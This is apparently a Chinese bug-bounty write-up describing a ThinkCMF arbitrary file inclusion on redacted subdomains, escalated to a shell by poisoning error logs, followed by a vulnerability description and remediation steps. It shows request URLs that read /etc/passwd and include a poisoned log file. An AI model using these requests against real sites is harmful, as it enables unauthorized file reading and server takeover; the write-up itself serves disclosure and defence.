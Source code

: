 ```yaml
---
title: 某SRC任意文件包含漏洞 包含日志Getshell
password: 132456+
abstract: 该文章已加密, 请输入密码查看。
message: 该文章已加密, 请输入密码查看。
wrong_pass_message: 密码不正确，请重新输入！
wrong_hash_message: 文章不能被校验, 不过您还是能看看解密后的内容！
tags: ThinkCMF
typora-root-url: ../
date: 2020-10-20 15:52:58
---
```




#### 案例

通过子域名收集到以下资产。

```
cp.***.com
cps.***.com
dept.***.com
sdk.***.com
```

发现上述域名均存在ThinkCMF任意文件包含漏洞。

```
http://**.***.com/?a=display&templateFile=/etc/passwd
```

![image-20201020152035870](/img/%E6%9F%90SRC%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E-%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%97Getshell/image-20201020152035870.png)

```
#包含日志利用条件
1、日志的存储路径：data/runtime/Logs/Portal/20_10_19.log（20_10_19.log 年_月_日.log）或可尝试一些常用的日志默认路径
2、日志可读
```

发现当无法加载控制器时会将报错信息写入log日志中去。

![image-20201020115405685](/img/%E6%9F%90SRC%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E-%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%97Getshell/image-20201020115405685.png)

![image-20201020115100297](/img/%E6%9F%90SRC%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E-%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%97Getshell/image-20201020115100297.png)

利用通过记录错误日志写入恶意数据，浏览器url特殊字符自动转换编码，所以需要抓包修改。

![](/img/%E6%9F%90SRC%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E-%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%97Getshell/image-20201020114711936.png)

已将恶意数据写入log日志中配合文件包含漏洞成功解析。

```
https://**.***.com/?a=display&templateFile=data/runtime/Logs/Portal/20_10_19.log
```

![image-20201020115534944](/img/%E6%9F%90SRC%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E-%E5%8C%85%E5%90%AB%E6%97%A5%E5%BF%97Getshell/image-20201020115534944.png)



#### 任意文件包含漏洞

##### 漏洞描述

&emsp;&emsp;任意文件包含漏洞（Unrestricted File Inclusion），是一种常见的Web安全漏洞，Web程序在引入文件时，由于传入的文件名没有经过合理的校验，或者检验被绕过，从而操作了预想之外的文件，导致意外的敏感信息泄露，甚至恶意的代码注入，使攻击者获取到网站服务器权限。
&emsp;&emsp;当被包含的文件在服务器本地时，形成本地文件包含漏洞；被包含的文件在第三方服务器时，形成远程文件包含漏洞。

##### 修复方案

1. 关闭危险的文件打开函数。
2. 过滤特殊字符，如：“.”(点)、“/”(斜杠)、“\”(反斜杠)。
3. 使用web检测文件内容。